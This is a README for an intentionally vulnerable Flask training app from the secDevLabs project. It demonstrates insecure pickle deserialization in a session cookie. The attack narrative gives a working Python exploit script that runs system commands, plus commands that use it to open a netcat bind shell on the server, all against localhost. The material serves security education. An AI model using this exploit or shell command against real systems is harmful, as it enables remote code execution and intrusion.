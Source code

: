 # Amarelo Designs

<p align="center">
    <img src="images/Amarelo-Designs.png"/>
</p>

This is a simple web application built with Flask that contains an example of an Insecure Deserialization vulnerability and, it's main goal, is to describe how a malicious user could exploit a vulnerability, intentionally installed on Amarelo Designs from secDevLabs, to obtain a blind remote code execution.

## Index

- [Definition](#what-is-insecure-deserialization)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Insecure Deserialization?

Serialization is the process of translating data structures, or object state, into a format that can be stored or transmitted and reconstructed later. Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks, including replay attacks, injection attacks, and privilege escalation attacks.

The main goal of this app is to discuss how **Insecure Deserialization** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2017-apps/a8/amarelo-designs
```

```sh
make install
```

Then simply visit [localhost:5000][App] ! 😆

## Get to know the app 🎨

To properly understand how this application works, you can follow these simple steps:

- Visit the homepage!
- Have a look at the portfolio

## Attack narrative

Now that you know the purpose of this app, what could possibly go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or it's users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Use of an insecure deserialization function allows for remote code execution

It's possible to reach the server's web application from the HTTP port 5000, as shown by the image below:

<img src="images/attack1.png" align="center"/>

Making use of the [Dirb] tool to search for webpages and a common directories [wordlist], we were able to find `/user`, `/admin` and `/console`, as shown by the picture below: (If you want to install Dirb for Mac OS, be sure to click [here][4])

```sh
$ dirb http://localhost:5000 ./../../../docs/common.txt
```

<p align="center">
    <img src="images/attack2.png"/>
</p>

When accessed, the `/admin` page exposes an authentication screen, as depicted by the image:

<p align="center">
    <img src="images/attack3.png"/>
</p>

### 🔥
 
A quick test utilizing `admin` as the credentials for the `Username` and `Password` fields, gives us acess to an Admin Dashboard, as shown below:

<img src="images/attack4.png" align="center"/>

Now, using [Burp Suite] as proxy to intercept the login request, we can see that the app returns a session cookie, `sessionId`, as depicted below:

<img src="images/attack5.png" align="center"/>

After decoding the cookie, which is in base64, the following structure was found:

<img src="images/attack6.png" align="center"/>

The structure found is very similar to the ones created with the [Pickle] function. We can be certain of that by having a look at the app's [code][3]. The hint is now confirmed, the app uses Pickle, as we can see from the image below:


<img src="images/attack7.png" align="center"/>

If an attacker knew that the app uses `Pickle` as the serialisation method, he/she could create a malicious cookie to take advantage of it and execute code remotely. An example of an exploit (serializaPickle.py) in Python 3 that could produce this cookie could be:

```python
import pickle
import os
import base64
import sys
import requests

cmd = str(sys.argv[1])
url = str(sys.argv[2])


class Exploit(object):
    def __reduce__(self):
        return (os.system, (cmd, ))


pickle_result = pickle.dumps(Exploit())

result = str(base64.b64encode(pickle_result), "utf-8")

print(result)
print(cmd)
print(url)

cookie = {'sessionId': result}

print(cookie)

r = requests.get(url, cookies=cookie)
```

In order to be certain that the app is exploitable, we will send a sleep command to make the app unresposive for 10 seconds. If the app takes 10 seconds to return our request, than it's confirmed, the app is exploitable. As we can see from the image below, the app takes some time to return our request, thus confirming that it is exploitable and confirming the remote code execution:

```sh
$ python3 serializaPickle.py "sleep 10" http://localhost:5000/user
```

<img src="images/attack9.png" align="center"/>

In order to show how an attacker could have access to the server through a RCE, we will use the code depicted on the image below to create a bind shell on the server's 9051 port.

```sh
$ python3 serializaPickle.py "nc -lvp 9051 -e /bin/sh" http://localhost:5000/user
```

<img src="images/attack10.png" align="center"/>

The code used above creates a bind shell on the server's port 9051, which is then listening for incoming connections. After that, the attacker can connect to that port using a simple [netcat] command, as shown below:

```sh
$ nc localhost 9051
```

<p align="center">
    <img src="images/attack11.png"/>
</p>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

* Execute code remotely through a serialization vulnerability

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Amarelo+Designs%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]:  https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost:5000
[secDevLabs]: https://github.com/globocom/secDevLabs
[2]: https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a8/amarelo-designs
[Dirb]: https://tools.kali.org/web-applications/dirb
[Burp Suite]: https://en.wikipedia.org/wiki/Burp_suite
[3]: https://github.com/globocom/secDevLabs/blob/master/owasp-top10-2017-apps/a8/amarelo-designs/app/app.py
[Pickle]: https://docs.python.org/2/library/pickle.html
[netcat]: https://en.wikipedia.org/wiki/Netcat
[4]: https://github.com/globocom/secDevLabs/blob/master/docs/Dirb.md
[wordlist]: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/common.txt
